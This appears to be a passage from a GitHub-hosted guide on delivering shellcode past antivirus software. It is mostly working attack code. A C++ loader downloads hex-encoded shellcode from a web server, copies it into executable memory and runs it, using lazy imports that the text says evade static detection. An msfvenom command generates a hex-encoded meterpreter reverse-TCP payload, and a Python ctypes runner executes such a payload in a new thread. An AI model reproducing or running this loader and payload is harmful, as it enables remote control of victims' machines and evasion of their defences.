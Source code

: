 ```
        return 0;
    }

    HttpQueryInfo(hConnect, HTTP_QUERY_CONTENT_LENGTH | HTTP_QUERY_FLAG_NUMBER, &contentLength, &bufferLength, nullptr);
    std::vector<char> hexBuffer(contentLength + 1, 0);

    if (!InternetReadFile(hConnect, &hexBuffer[0], contentLength, &bytesRead)) return 0;
    hexBuffer[bytesRead] = '\0';

    buffer.resize(bytesRead / 2);
    hexStringToBytes(&hexBuffer[0], &buffer[0], bytesRead / 2);

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return bytesRead / 2;
}

int main() {
    LPSTR url = (char*)"http://127.0.0.1:8000/shellcode_hex.txt";
    std::vector<unsigned char> buffer;
    size_t size = GetUrl_HexContent(url, buffer);

    char* exec = (char*)LI_FN(VirtualAlloc)(nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buffer.data(), size);

    ((void(*)())exec)();
    return 0;
}
```

- **Lazy Importer**: Dynamically imports `VirtualAlloc` to avoid static detection by antivirus.
- **WinINet**: Fetches the shellcode from a remote server (`python -m http.server 8000`).

You can encode the payload in **hexadecimal** to make it more obscure to antivirus detection:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e generic/none -f hex
```

The `-e` flag specifies the encoder (`generic/none` means no specific encoding other than hex).

Once you generate the hex-encoded payload, you need to decode and execute it. A simple method for executing hex payloads involves converting the hex back into binary and executing it via memory injection in languages like C or Python.

Example in **Python**:

```
import binascii
import ctypes

# Hex-encoded payload
shellcode = binascii.unhexlify("your_hex_encoded_payload")

# Allocate executable memory
ptr = ctypes.windll.kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(ptr, shellcode, len(shellcode))

# Execute the shellcode
handle = ctypes.windll.kernel32.CreateThread(None, 0, ptr, None, 0, None)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```
